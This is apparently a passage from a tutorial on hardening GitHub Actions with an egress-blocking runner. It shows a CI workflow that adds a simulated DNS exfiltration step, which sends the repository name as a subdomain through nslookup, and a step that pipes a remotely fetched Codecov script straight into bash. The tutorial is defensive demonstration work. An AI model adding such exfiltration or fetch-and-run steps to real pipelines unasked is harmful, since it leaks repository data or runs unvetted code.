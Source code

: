    ```yaml
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
   ```

8. Simulate a DNS exfiltration attack similar to the one used in the dependency confusion attack. Update the [ci.yml](../.github/workflows/ci.yml) workflow and add the following statement. In the actual attack, the outbound call was made by a malicious package as part of `preinstall` step. In this case, just add this step to the workflow to simulate sending the repo name as a sub-domain to stepsecurity.io.

   ```yaml
   - name: Simulate DNS traffic
       run: |
         domain="${GITHUB_REPOSITORY}.stepsecurity.io"
         domain=${domain//\//-}
         nslookup "${domain}"
   ```

   The updated file should look like this:

   ```yaml
   name: Test and coverage

   on: [push, pull_request, workflow_dispatch]

   jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         #Add NextLinux Harden Runner from here onwards
         - uses: nextlinux/harden-runner@v2
           with:
             egress-policy: block
             allowed-endpoints: >
               codecov.io:443
               github.com:443
         - uses: actions/checkout@v2
           with:
             fetch-depth: 2
         - uses: actions/setup-go@v2
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
         - name: Simulate DNS traffic
           run: |
             domain="${GITHUB_REPOSITORY}.stepsecurity.io"
             domain=${domain//\//-}
             nslookup "${domain}"
   ```
